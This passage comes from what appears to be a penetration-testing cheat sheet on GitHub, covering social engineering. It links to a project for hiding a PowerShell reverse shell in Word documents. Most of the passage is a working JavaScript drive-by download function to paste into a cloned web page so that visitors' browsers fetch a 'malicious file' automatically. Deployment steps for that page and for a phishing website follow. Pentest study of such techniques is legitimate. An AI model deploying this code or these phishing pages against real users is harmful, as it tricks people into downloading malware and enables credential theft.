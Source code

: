## 6. Social Engineering

Find out how to embed a PowerShell script into an MS Word document from my other [project](https://github.com/ivan-sincek/powershell-reverse-tcp#ms-word).

### Drive-by Download

To force users to download a malicious file, copy and paste this JavaScript code block on a cloned web page:

```javascript
function download(url, type, name, method) {
	var req = new XMLHttpRequest();
	req.open(method, url, true);
	req.responseType = 'blob';
	req.onload = function() {
		var blob = new Blob([req.response], { type: type })
		var isIE = false || !!document.documentMode;
		if (isIE) {
			// IE doesn't allow using a blob object directly as link
			// instead it is necessary to use msSaveOrOpenBlob()
			if (window.navigator && window.navigator.msSaveOrOpenBlob) {
				window.navigator.msSaveOrOpenBlob(blob, name);
			}
		} else {
			var anchor = document.createElement('a');
			anchor.href = window.URL.createObjectURL(blob);
			anchor.download = name;
			anchor.click();
			// in Firefox it is necessary to delay revoking the ObjectURL
			setTimeout(function() {
				window.URL.revokeObjectURL(anchor);
				anchor.remove();
			}, 250);
		}
	};
	req.send();
}
// specify your file here, use only an absolute URL
download('http://localhost/files/pentest.pdf', 'application/pdf', 'pentest.pdf', 'GET');
// download('http://localhost/files/pentest.docx', 'plain/txt', 'pentest.docx', 'GET');
```

To try it out, copy all the content from [\\social_engineering\\driveby_download\\](https://github.com/ivan-sincek/penetration-testing-cheat-sheet/tree/master/social_engineering/driveby_download) to your server's web root directory (e.g. to \\xampp\\htdocs\\ on XAMPP), and navigate to the web page with your preferred web browser.

### Phishing Website

To try it out, copy all the content from [\\social_engineering\\phishing_website\\](https://github.com/ivan-sincek/penetration-testing-cheat-sheet/tree/master/social_engineering/phishing_website) to your server's web root directory (e.g. to \xampp\htdocs\ on XAMPP), and navigate to the web page with your preferred web browser.
